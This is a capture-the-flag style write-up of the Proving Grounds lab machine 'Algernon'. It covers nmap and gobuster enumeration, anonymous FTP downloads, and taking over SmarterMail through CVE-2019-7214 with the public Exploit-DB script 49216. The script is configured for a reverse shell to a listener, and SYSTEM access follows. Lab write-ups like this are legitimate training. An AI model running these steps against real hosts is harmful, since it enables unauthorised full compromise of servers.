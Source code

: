 # PG Algernon
## SmarterMail
## Nmap Scan
```
nmap -T4 -p- -A -oN scan.txt 192.168.x.x
```
## Service Enumeration
```
Looking at the nmap output, anonymous login appears to be enabled on this FTP server.
I test the login and download all the files using mget *.
```
## FTP
```
mget *
```
## SMB
```
No anonymous share enumeration, access denied.
```
## HTTP
```
Looks like a default installation of Microsoft IIS web server.
I test for any files or directories using gobuster, but find nothing.
```
## HTTP (TCP/9998)
```
Looks like a web service called SmarterMail.
Check Exploit DB for any vulnerabilities matching this service name using searchsploit. 
Default credentials found using Google search do not work here.
Source code reveals a version number.
```
## .NET Remoting (TCP/17001)
```
.NET Remoting (TCP/17001)
Searching Google for information on this port, I see repeated mentions of remote code execution (RCE) coupled with SmarterMail.

    https://www.speedguide.net/port.php?port=17001
    https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-7214
    Confirm on Exploit DB: https://www.exploit-db.com/exploits/49216
```
##  Exploit
```
Using the exploit found using searchsploit I copy 49216.py to my current working directory.
Edit the exploit variables:

HOST='192.168.x.x'
PORT=17001
LHOST='192.168.x.x'
LPORT=80

Python
I then, start a TCP listener on port 80 and run the exploit.
python3 49216.py
```
##  Post-Exploitation
```
The SmarterMail service is being executed by the SYSTEM account, meaning I have fully compromised this host.
```


